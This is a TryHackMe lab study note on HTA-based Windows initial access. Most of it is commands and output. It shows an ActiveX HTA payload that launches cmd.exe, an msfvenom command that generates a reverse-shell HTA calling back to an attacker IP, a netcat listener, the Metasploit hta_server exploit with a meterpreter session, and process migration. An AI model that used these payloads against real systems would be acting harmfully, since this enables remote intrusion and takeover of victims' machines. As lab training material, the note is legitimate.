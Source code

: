 ```yaml
---
title: An HTML Application (HTA) 💉
tags:
  - TryHackMe
  - Theory
---
```

## An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

````shell
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
````

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

![](Pasted%20image%2020240127115618.png)

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

![](Pasted%20image%2020240127115638.png)

## HTA Reverse Connection

We can create a reverse shell payload as follows,

````shell
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
````

We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.

````shell 
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
````

## Malicious HTA via Metasploit 

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.

````shell
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
````

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

````shell
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>
````

In the Metasploit framework, **we can inject our current process into another process on the victim machine using migrate**. In our case, we need to migrate our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. The easiest way to do this is by using migrate post-module as follow,

````shell
meterpreter > run post/windows/manage/migrate 

[*] Running module against DESKTOP-1AU6NT4
[*] Current server process: svchost.exe (3280)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 4960
[+] Successfully migrated into process 4960
````

In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on this [website](https://web.archive.org/web/20220607215637/https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).